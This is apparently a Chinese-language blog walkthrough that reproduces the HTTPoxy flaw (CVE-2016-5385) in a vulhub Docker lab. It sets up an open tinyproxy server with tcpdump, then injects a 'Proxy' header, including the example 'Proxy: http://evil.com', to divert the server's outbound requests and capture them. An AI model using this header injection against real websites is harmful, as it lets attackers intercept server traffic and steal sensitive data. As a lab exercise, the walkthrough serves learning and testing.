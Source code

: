 ```yaml
---
title: 复现HTTPoxy漏洞（CVE-2016-5385）
category: 
- 渗透测试
tags: 
- 漏洞复现
---
```


### 漏洞简介

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

参考链接：

- https://github.com/vulhub/vulhub/blob/master/cgi/httpoxy/README.zh-cn.md

为什么还要写这篇文章呢，因为网上许多关于这个漏洞的复现过程要不就照搬原作的(参考连接)要不就写的很含糊。自己在复现过程中也踩过一些坑，所以一起和大家分享下。复现日期-2021-02-15

### 环境搭建

- 使用docker一键搭建漏洞环境

```shell
docker-compose up -d
```

![image-20210215175754078](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210215175754078.png)

部署成功后，访问index.php页面。抓包看到请求包如下：

![image-20210215232704278](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210215232704278.png)

没有任何问题。接着按照笔者所说，加上proxy字段的值，观察返回的结果：

![image-20210215232856761](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210215232856761.png)

在代理服务器上抓取到的流量包如下:

![image-20210215233016843](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210215233016843.png)

懒得码了，直接说复现步骤吧。

### Step:

其实原理很简单。只需要你有一台稳定的http代理服务器。有很多朋友最终没有复现成功的原因都是卡在了这一步。这里和大家分享一下我的搭建步骤，仅供参考：

首先我用的是centos7 64位的vps。使用的代理工具是tinyproxy 轻量级代理工具。最终用来查看代理端口流量包的工具是tcpdump。一步一步来，力求没有差错：

- 安装tinyproxy

centos下是可以一键安装的，但是需要注意如果提示说软件包中找不到tinyproxy，需要使用如下命令启用Extras 仓库：

```shell
#CentOS and Red Hat Enterprise Linux 7.x
wget https://dl.fedoraproject.org/pub/epel/epel-release-latest-7.noarch.rpm
sudo rpm -Uvh epel-release-latest-7*.rpm
```

接着安装tinyproxy:

```shell
yum install -y tinyproxy
```

- 配置tinyproxy

要复现这个漏洞需要我们设置代理服务器为所有人可以访问，具体需要配置的事项如下：

```shell
vim /etc/tinyproxy/tinyproxy.conf
Port 8888 #更改默认端口
#Allow 127.0.0.1  注释掉这行 表示允许所有host访问
DisableViaHeader Yes #见闻之一
```

接着关闭放火墙->设置端口访问->禁止防火墙自动重启

```shell
systemctl stop firewalld.service
iptables -A INPUT -p tcp --dport 8888 -j ACCEPT
systemctl disable firewalld.service 
```

接着启动代理服务->测试代理是否成功

```shell
systemctl start tinyproxy.service 
curl -x 155.138.xxx.xxx:7777 --connect-timeout 5 http://baidu.com#ip和端口改成你自己设置的
```

如果出现如下界面说明代理服务运行正常：

![image-20210215234817367](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20210215234817367.png)

- 安装tcpdump

```shell
yum -y install tcpdump
```

接下来需要抓取代理服务器流经该端口的流量：这里演示一下使用tcpdump抓取主机上某网卡上的get、post请求：

```shell
tcpdump -s 0 -A -vv 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420'
```

然后在发送到服务器请求包中加上proxy : http://xxx.xxx.xxx.xxx:port/ 

接着你就能在代理服务上看到抓到的流量包了。现在在回过头理解一下这个漏洞，是不是有更加清晰的认识了呢。

想进一步了解这个漏洞的原理、危害、请[移步](https://www.laruence.com/2016/07/19/3101.html)：

<!-- more -->
